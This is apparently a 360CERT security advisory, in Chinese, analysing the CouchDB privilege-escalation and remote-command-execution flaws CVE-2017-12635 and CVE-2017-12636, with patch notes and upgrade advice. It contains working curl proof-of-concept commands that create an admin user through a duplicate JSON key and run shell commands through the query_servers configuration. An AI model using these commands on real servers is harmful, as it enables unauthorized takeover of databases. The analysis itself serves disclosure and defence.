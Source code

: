 ```yaml
---
id: 0bc3f86b333bf27fe26fe6fdc8bda5f8
title: CouchDB漏洞(CVE–2017–12635, CVE–2017–12636)分析
tags: 
  - 安全资讯
  - 360CERT
---
```


# CouchDB漏洞(CVE–2017–12635, CVE–2017–12636)分析

0x00 背景
-------


Apache
CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit
Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。


在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CouchDB被曝存在远程代码执行的问题。其中CVE-2017-12636的任意命令执行早在2016年即被披露，
但并未引起重视。


0x01漏洞概述
--------


CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。可以被利用于，非管理员用户赋予自身管理员身份权限。


CVE-2017-12636时由于数据库自身设计原因，管理员身份可以通过HTTP（S）方式，配置数据库。在某些配置中，可设置可执行文件的路径，在数据库运行范围内执行。结合CVE-2017-12635可实现远程代码执行。


0x02 漏洞分析
---------


CVE-2017-12635问题在于Erlang和JavaScript对JSON中重复的键处理方式具有差异性，例如{“a”:”1”,”a”:”2”},


Erlang:


1. > jiffy:decode("{\"a\":\"1\", \"a\":\"2\"}").
2. {[{\<\<"a">>,\<\<"1">>},{\<\<"a">>,\<\<"2">>}]}


JavaScript”


1. > JSON.parse("{\"a\":\"1\", \"a\": \"2\"}")
2. {a: "2"}


对于给定的键，Eralang解析器将存储两个值，但是JavaScript只存储第二个值。但是在jiffy实现的时候，getter函数只返回第一个值


1. % Within couch\_util:get\_value
2. lists:keysearch(Key, 1, List).


可以构建如下POC：


1. curl -X PUT -d '{"type":"user","name":"oops","roles":["\_admin"],"roles":[],"password":"123456"}' localhost:5984/\_users/org.couchdb.user:oops -H "Content-Type:application/json"


除了输入验证脚本之外，几乎所有关于身份验证和授权的重要逻辑都发生在CouchDB的Erlang部分，所以这样可以使当前用户赋予“\_admin”身份。


查看jiffy解析器源码，定位到patch:


![enter image description here](https://cert.360.cn/static/fileimg/CVE-2017-12635_1_1510820611.png "enter image title here")


![enter image description here](https://cert.360.cn/static/fileimg/CVE-2017-12635_2_1510820658.png "enter image title here")


可以发现patch后，加入了dedupe\_keys字段用于对重复键的标识，重写了make\_object方法，使得jiffy解析JSON的方法和JavaScript一致。


而CVE-2017-12636漏洞在于CouchDB自身的设计问题，CouchDB允许外部通过自身HTTP(S)
API对配置文件进行更改，一些配置选项包括操作系统级二进制文件的路径，随后会由CouchDB启动。从这里获取shell通常很简单，因为CouchDB其中一个“query\_servers“选项，可以自定义二进制文件加载路径，这个功能基本上只是一个包装execv。


![enter image description here](https://cert.360.cn/static/fileimg/CVE-2017-12635_3_1510820670.png "enter image title here")


可以构造简单的POC进行验证：


1. curl -X PUT '<http://localhost:5984/_config/query_servers/cmd>' -d '"/sbin/ifconfig >/tmp/6668"'
2. curl -X PUT 'http:// localhost:5984/vultest'
3. curl -X PUT 'http://
localhost:5984/vultest/vul' -d '{"\_id":"770895a97726d5ca6d70a22173005c7b"}'
4. curl -X POST 'http://
localhost:5984/vultest/\_temp\_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'


更改query\_servers配置，创建个临时表，调用query\_servers处理数据。这样便可以执行shell，在规定的/tmp/6668文件中，写入ifconfig信息。


这样配合之前的CVE-2017-12635权限提升漏洞，实现远程代码执行：


![enter image description here](https://cert.360.cn/static/fileimg/CVE-2017-12635_4_1510820680.png "enter image title here")


0x03 全网影响
---------


根据360CERT全网资产检索平台实时显示，
共有4943台CouchDB服务在外网开放，以美国占量为主


![enter image description here](https://cert.360.cn/static/fileimg/CVE-2017-12635_5_1510820689.png "enter image title here")


![enter image description here](https://cert.360.cn/static/fileimg/CVE-2017-12635_6_1510820696.png "enter image title here")


国内统计以广东，北京占量为主


![enter image description here](https://cert.360.cn/static/fileimg/CVE-2017-12635_7_1510820703.png "enter image title here")


0x04 修复建议
---------


1. 所有用户都应升级到CouchDB 1.7.1或 2.1.1。
2. 配置HTTP API配置参数，针对敏感配置信息加入黑名单。


0x05 时间线
--------


2016年5月 CouchDB未授权访问漏洞被披露


2017年11月15日 CVE-2017-12635，CVE-2017-12636披露


2017年11月15日 360CERT及时跟进分析


2017年11月16日 360CERT发布分析预警


0x06 参考文档
---------


<http://docs.couchdb.org/en/2.1.1/config/intro.html>


[https://lists.apache.org/thread.html/6c405bf3f8358e6314076be9f48c89a2e0ddf00539906291ebdf0c67@%3Cdev.couchdb.apache.org%3E](mailto:https://lists.apache.org/thread.html/6c405bf3f8358e6314076be9f48c89a2e0ddf00539906291ebdf0c67@%3Cdev.couchdb.apache.org%3E)


<http://cb.drops.wiki/drops/papers-16030.html>


